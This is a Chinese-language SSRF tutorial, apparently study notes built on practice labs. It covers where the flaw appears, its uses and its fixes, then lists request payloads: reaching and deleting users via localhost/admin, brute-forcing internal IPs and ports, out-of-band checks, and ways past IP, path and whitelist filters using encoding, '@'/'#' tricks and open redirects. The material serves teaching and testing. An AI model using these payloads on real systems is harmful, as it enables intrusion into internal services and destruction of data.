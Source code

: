 ## ==未归纳==

SSRF（服务器端请求伪造）漏洞是一种通过诱导服务器发起未经授权的请求，从而访问内部资源、敏感数据或对外部系统发起攻击的安全漏洞。

一般在用户可以请求服务器访问第三方资源的业务中存在

例如：

1. 发送 `HTTP` 请求：https://www.g.cn/xxx.php?image=https://www.kali.org/kali.jpg
2. 服务器接收到请求之后获取 http://www.kali.org/kali.jpg 图片
3. 服务器获取到图片后将图片返回给用户

常见位置：

1. 分享：通过 `url` 地址分享网页内容

2. 转码服务

3. 在线翻译

4. 图片加载与下载：通过 `url` 地址加载或下载图片

5. 图片、文章收藏功能

6. 未公开的 `api` 实现以及其他调用 `url` 的功能

7. 从 `url` 关键字中寻找：

   `share` `wap` `url` `link` `src` `source` `target` `u` `3g` `display` `sourceURl` `imageURL` `domain` 

8. `php` 中容易存在 `ssrf` 的函数：

   `curl`  `file_get_content` 

常见用途：

1. 任意文件读取

   > 可利用 `ssrf` 漏洞读取 `web` 服务用户能够访问的所有文件

2. 内外网 `ip` 端口和服务扫描

   > 通常情况下黑客只能扫描目标服务器的外网端口，可以利用 `ssrf` 漏洞扫描不对外开放的内网端口

3. 内外网主机漏洞利用

>  `get` 
>
>  >  `sql` 注入
>
>  `post` 
>
>  > `sql` 注入，`rce` 调用

修复思路：

1. 限制协议
2. 限制 `ip` 
3. 限制端口

可能存在 ssrf 的 url 样式

```
http://test.local/pikachu/vul/ssrf/ssrf_curl.php?url=http://127.0.0.1/pikachu/vul/ssrf/ssrf_info/info1.php
```

## 验证

**直接验证**

利用 `ssrf` 漏洞获取一个外网的页面

```
http://test.local/pikachu/vul/ssrf/ssrf_curl.php?url=http://hack.local/
```

![利用 ssrf 漏洞获取一个外网的页面](./../../../images/SSRF/%E5%88%A9%E7%94%A8%20ssrf%20%E6%BC%8F%E6%B4%9E%E8%8E%B7%E5%8F%96%E4%B8%80%E4%B8%AA%E5%A4%96%E7%BD%91%E7%9A%84%E9%A1%B5%E9%9D%A2.png)

**`burp` 验证**

复制 `Collaborator` 域名

```
9gqpdvx9fs7gyu2rlergsb63cuil6cu1.oastify.com
```

![复制 Collaborator 域名](./../../../images/SSRF/%E5%A4%8D%E5%88%B6%20Collaborator%20%E5%9F%9F%E5%90%8D.png)

通过 `ssrf` 访问以上域名

```
http://test.local/pikachu/vul/ssrf/ssrf_curl.php?url=http://9gqpdvx9fs7gyu2rlergsb63cuil6cu1.oastify.com/
```

![通过 ssrf 访问以上域名](./../../../images/SSRF/%E9%80%9A%E8%BF%87%20ssrf%20%E8%AE%BF%E9%97%AE%E4%BB%A5%E4%B8%8A%E5%9F%9F%E5%90%8D.png)

> 若网站有 `cdn` 可通过 `dns 轮询` 得到主服务器 `ip` 

---

可能存在于库存的查询功能

通过后端 api 查询的功能可通过伪造 api 伪造用户请求

```
stockApi=http://stock.weliketoshop.net:8080/product/stock/check?productId=6&storeId=1
```

> 库存检查功能，可以从内部系统获取数据

构造 api 请求

```
stockApi=http://localhost/admin
```

> 获取 `/admin` URL 的内容

```
stockApi=http://localhost/admin/delete?username=carlos
```

> 删除用户 `carlos` 
>
> 在面板查看删除链接源码即可构造删除命令

在控制台 ip 未知的情况下可通过爆破获取

```
stockApi=http://192.168.0.§1§/admin
```

有时可能需要爆破端口

```
stockApi=http://192.168.0.§1§:§80§/admin
```

某些网站可能对特定 IP 的访问或者特定的路径进行过滤

```
使用 127.0.0.1 的替代 IP 表示形式，例如 2130706433 、 017700000001 或 127.1 。
注册您自己的域名，解析为 127.0.0.1 。您也可以使用 spoofed.burpcollaborator.net 来实现此目的。(http://test.local:8080/admin)
使用 URL 编码或大小写变化来混淆被阻止的字符串（有时需要双 URL 编码）。(http://127.0.0.1:8080/AdMi%6e)
提供您控制的 URL，该 URL 会重定向到目标 URL。尝试对目标 URL 使用不同的重定向代码以及不同的协议。例如，在重定向期间从 http: URL 切换到 https: URL 已被证明可以绕过某些反 SSRF 过滤器。(https://127.0.0.1:8080/admin)
```

> 尝试访问一个目标本地 IP，并构造正常操作，若出发安全机制则是 IP 被过滤
>
> ```
> http://127.0.0.1:8080/product/stock/check?productId=1&storeId=1
> ```
>
> 通过替代 IP 表示形式，访问不存在的路径，若未触发安全机制则成功绕过 IP 过滤
>
> ```
> http://127.1:8080/test
> ```
>
> 得到 IP 后爆破路径，触发 WAF 则是路径被过滤
>
> ```
> http://127.1/admin
> ```
>
> 可尝试对路径大小写或者 URL 绕过（可尝试使用 Hackvertor 进行双 URL 编码）
>
> ```
> http://127.1/AdMi%4e
> ```

白名单过滤可以通过以下方式绕过

> - 您可以使用 `@` 字符将凭据嵌入 URL 中的主机名之前。例如：
>
>   ```
>   https://expected-host:fakepassword@evil-host
>   ```
>
> - 您可以使用 `#` 字符来指示 URL 片段。例如：
>
>   ```
>   https://evil-host#expected-host
>   ```
>
> - 您可以利用 DNS 命名层次结构将所需的输入放入您控制的完全限定的 DNS 名称中。例如：
>
>   ```
>   https://expected-host.evil-host
>   ```
>
> - 您可以对字符进行 URL 编码以混淆 URL 解析代码。
>
> - 如果实现过滤器的代码处理 URL 编码字符的方式与执行后端 HTTP 请求的代码不同，则这尤其有用。您还可以尝试双编码字符；一些服务器对它们收到的输入进行递归 URL 解码，这可能会导致进一步的差异。
>
> - 您可以结合使用这些技术。

有时可以通过利用开放重定向漏洞来绕过基于过滤器的防御。

> 例如，该应用程序包含一个开放重定向漏洞，其中以下 URL：
>
> ```
>  /product/nextProduct?currentProductId=6&path=/product?productId=3
> ```
>
> 返回重定向到：
>
> ```
>  /product?productId=3
> ```
>
> 您可以利用开放重定向漏洞绕过URL过滤，利用SSRF漏洞，如下：
>
> ```
> POST /product/stock HTTP/1.0
> Content-Type: application/x-www-form-urlencoded
> Content-Length: 118
> 
> stockApi=/product/nextProduct?path=http://192.168.0.12:8080/admin
> ```

若存在无回显的 ssrf 则可利用 Burp Collaborator 修改  Referer 标头中指定的 URL 测试

```
Referer: https://test.oastify.com/
```

可能存在 SSRF 的 URL

```
http://www.xxx.com/vul.php?url=http://www.xxc.com/xxx.jpg
http://share.xxx.com/index.php?url=http://test.com
```


